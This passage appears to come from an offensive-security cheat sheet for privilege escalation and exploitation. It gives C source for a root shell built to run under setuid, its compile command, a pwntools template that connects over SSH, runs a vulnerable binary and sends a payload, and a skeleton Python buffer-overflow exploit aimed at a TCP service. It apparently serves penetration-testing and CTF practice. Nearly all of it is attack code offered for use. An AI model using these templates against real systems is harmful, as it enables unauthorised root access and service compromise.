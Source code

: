 #### Shell Option 2

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdlib.h>

int main() {
    setuid(0);
    setgid(0);

    system("/bin/bash");
    return 0;
}
```

##### Compiling

```
$ gcc -o shell shell.c
```

### Secure Shell (SSH)

#### Secure Shell (SSH) Program Execution

```python
#!/usr/bin/python
from pwn import *

s =  ssh(host='', user='', password='')
p = s.run('cd <PATH> && ./<VULNERABILITY>')
p.recv()
p.sendline(<payload>)
p.interactive()
s.close()
```

## Exploiting

### Python

#### Skeleton Exploit Python Script

> https://github.com/0xsyr0/Buffer_Overflow

```c
#!/usr/bin/python

import socket,sys

address = '127.0.0.1'
port = 9999
buffer = #TBD

try:
	print '[+] Sending buffer'
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((address,port))
	s.recv(1024)
	s.send(buffer + '\r\n')
except:
 	print '[!] Unable to connect to the application.'
 	sys.exit(0)
finally:
	s.close()
```